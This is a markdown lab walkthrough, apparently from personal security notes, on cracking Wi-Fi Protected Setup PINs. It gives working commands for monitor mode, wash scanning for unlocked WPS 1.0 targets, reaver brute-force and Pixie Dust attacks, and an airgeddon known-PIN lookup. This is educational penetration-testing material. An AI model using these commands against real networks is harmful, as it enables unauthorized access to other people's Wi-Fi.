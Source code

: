 
> [!info]
> This was performed on a controlled network, meaning everything performed was both legal and ethical.

This walkthrough does not contain in-depth explanations of every tool used.  For references to the tools used, see my [Wireless Cheatsheet](../Notes/Wireless%20Cheatsheet.md).

## Overview
---
WPS (Wi-Fi Protected Setup) is a network setup feature that provides simplified methods for connecting devices to a Wi-Fi network. It doesn't replace or dictate the choice of the underlying security protocol (e.g., WPA2-PSK, WEP, etc.). Instead, it offers a convenient way to establish a connection with either WPA2-PSK or WEP as the security protocol.

The predominant methods of WPS connections are:
- Push Button Configuration (e.g., pressing on a physical button on the Wi-Fi router)
- PIN Entry (generally an 8-digit numerical PIN)

This means for authentication, a bad actor needs to find a network that supports WPS (below version 2.0, which introduced bruteforce protections) and crack the PIN.

## Cracking the WPS PIN
---

(Example using tools such as "wash", "reaver", and "airgeddon")

```bash
# View Current WiFi Driver
sudo airmon-ng
# Create Monitor Interface
sudo airmon-ng start wlan0

### or ###

# Add a separate monitor mode interface based on an existing interface
sudo iw dev <interface> interface add <monitor_name> type monitor
# Bring new interface up
sudo ip link set <monitor_name> up
```

Once we have our monitor interface setup, we can use it to scan for broadcasting SSID's that support WPS.

```shell
sudo wash -i wlan0mon
```

**Example output:**
![[Pasted image 20231015005548.png]]
*(WPS 2.0 introduced bruteforce protections, meaning we want to find a broadcast with WPS 1.0 that is NOT locked. Meaning we're looking for:  "Lck : no")*

Once we find a vulnerable target, we can then attempt to exploit them using a tool called "reaver". 
```shell
sudo reaver -b <bssid> -c <channel> -i wlan0mon -v
```

This brute force is very time consuming, and take upwards of 6 hours.  The *potential* work around is using the ``-K`` parameter which will utilize ``PixieWPS``

```shell
sudo reaver -b <bssid> -c <channel> -i wlan0mon -v -K
```

**Example Output:**
![[Pasted image 20231015005530.png]]

If that still failed, we can use check to see if the device uses an empty pin using the ``-p`` parameter.

To check for known PINs, we can use the "airgeddon" project.
```shell
sudo apt install airgeddon
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["<first_half_of_bssid"]}
```

If there the above code returns any  values, we can try the returned PINs manually with reaver.
